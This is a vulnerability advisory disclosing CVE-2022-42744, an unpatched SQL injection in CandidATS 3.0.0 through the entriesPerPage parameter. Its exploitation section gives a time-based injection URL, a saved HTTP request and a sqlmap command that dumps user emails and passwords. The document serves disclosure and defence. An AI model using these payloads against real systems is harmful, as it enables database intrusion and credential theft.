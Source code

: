 ```yaml
---
slug: advisories/mohawke/
title: CandidATS 3.0.0 - SQLi via entriesPerPage
authors: Carlos Bello
writer: cbello
codename: mohawke
product: CandidATS 3.0.0 - SQLi via entriesPerPage
date: 2022-10-18 18:30 COT
cveid: CVE-2022-42744
severity: 8.8
description: CandidATS 3.0.0      -     SQLi via entriesPerPage
keywords: Fluid Attacks, Security, Vulnerabilities, Candid ATS, Sql Injection
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | CandidATS 3.0.0 - SQLi via entriesPerPage                          |
| **Code name**         | [Mohawke](https://en.wikipedia.org/wiki/Hudson_Mohawke)            |
| **Product**           | CandidATS                                                          |
| **Affected versions** | Version 3.0.0                                                      |
| **State**             | Public                                                             |
| **Release date**      | 2022-10-25                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | SQL injection                                                                                                               |
| **Rule**              | [146. SQL injection](https://docs.fluidattacks.com/criteria/vulnerabilities/146)                                            |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H                                                                                |
| **CVSSv3 Base Score** | 8.8                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2022-42744](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-42744)                                             |

## Description

CandidATS version 3.0.0 allows an external attacker to perform CRUD
operations on the application databases. This is possible because the
application does not correctly validate the `entriesPerPage` parameter
against SQLi attacks.

## Vulnerability

The SQLi present in CandidATS 3.0.0 allows an unauthenticated remote
attacker to perform CRUD operations on the application database. To
trigger this vulnerability, we will need to send a malicious SQL query
in the `entriesPerPage` parameter.

* https://demo.candidats.net/ajax.php?f=getPipelineJobOrder&joborderID=50&page=0&entriesPerPage=15+AND+sleep(5)--+&sortBy=dateCreatedInt&sortDirection=desc&indexFile=index.php&isPopup=0

## Exploitation

In this attack we will obtain the logs containing the emails and passwords
of the users. To achieve this we will need 3 things:

### candidATS.req

The request of the application, we save it in a file.

```txt
GET /ajax.php?f=getPipelineJobOrder&joborderID=50&page=0&entriesPerPage=15&sortBy=dateCreatedInt&sortDirection=desc&indexFile=index.php&isPopup=0 HTTP/2
Host: demo.candidats.net
Cookie: CATS=1eiuqu2acq6t6tcguhcof52eha
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
```

### SqlMap Command

By executing this command, we will obtain the records of our interest.

```bash
sqlmap -r candidATS.req -p entriesPerPage -D prfkvqsyht -T user -C email,password --dump
```

### Dump DB

Finally we see how we managed to compromise user records.

![image](https://user-images.githubusercontent.com/51862990/197896631-7b6244a0-dc45-4816-a2e2-578d22d3ac31.png)

## Our security policy

We have reserved the CVE-2022-42744 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: CandidATS 3.0.0

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://candidats.net/>

## Timeline

<time-lapse
  discovered="2022-10-07"
  contacted="2022-10-07"
  replied="2022-10-07"
  confirmed="2022-10-07"
  patched=""
  disclosure="2022-10-25">
</time-lapse>
